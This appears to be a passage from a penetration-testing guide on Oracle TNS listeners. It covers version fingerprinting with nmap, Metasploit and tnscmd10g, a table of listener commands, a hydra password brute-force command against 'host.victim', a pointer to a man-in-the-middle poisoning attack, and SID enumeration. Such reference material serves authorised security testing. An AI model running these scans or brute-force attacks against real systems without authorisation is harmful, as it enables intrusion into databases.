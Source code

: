 <h3>TNS listener version</h3>

```bash
nmap --script "oracle-tns-version" -p 1521 -T4 -sV <IP>
msf> use auxiliary/scanner/oracle/tnslsnr_version
#apt install tnscmd10g
tnscmd10g version -p 1521 -h <IP>
```

<h3>Other useful TNS listener commands:</h3>

| Command | Purpose |
| --- | --- |
| ping | Ping the listener |
| version | Provide output of the listener version and platform information |
| status | Return the current status and variables used by the listener |
| services | Dump service data |
| debug | Dump debugging information to the listener log |
| reload | Reload the listener configuration file |
| save_config | Write the listener configuration file to a backup location |
| stop | Invoke listener shutdown |

If you receive an error, could be because TNS versions are incompatible (Use the `--10G` parameter with `tnscmd10`) and if the error persist, the listener may be password protected (you can see a list were all the [errors are detailed here](https://docs.oracle.com/database/121/ERRMG/TNS-00000.htm#ERRMG-GUID-D723D931-ECBA-4FA4-BF1B-1F4FE2EEBAD7)) — don't worry… hydra to the rescue:

```bash
hydra -P rockyou.txt -t 32 -s 1521 host.victim oracle-listener
```

The TNS listener could be vulnerable to MitM attacks. [Check here how to check if the server is vulnerable and how to perform the attack (all versions up to version 12c are)](notion://www.notion.so/pentesting/1521-1522-1529-pentesting-oracle-listener/tns-poison).

<h2>SID Enumeration</h2>

<h3>What is a SID?</h3>

The SID (Service Identifier) is essentially the database name, depending on the install you may have one or more default SIDs, or even a totally custom dba defined SID.

In some old versions (in 9 it works) you could ask for the SID and the database send it to you:

```bash
tnscmd10g status-p 1521 -h <IP> #The SID are inside: SERVICE=(SERVICE_NAME=<SID_NAME>)

#msf1
msf> use auxiliary/scanner/oracle/sid_enum
msf> set rhost <IP>
msf> run
#msf2
msf> use auxiliary/admin/oracle/tnscmd
msf> set CMD (CONNECT_DATA=(COMMAND=STATUS))
msf> set rhost <IP>
msf> run #The SID are inside: SERVICE=(SERVICE_NAME=<SID_NAME>)
```
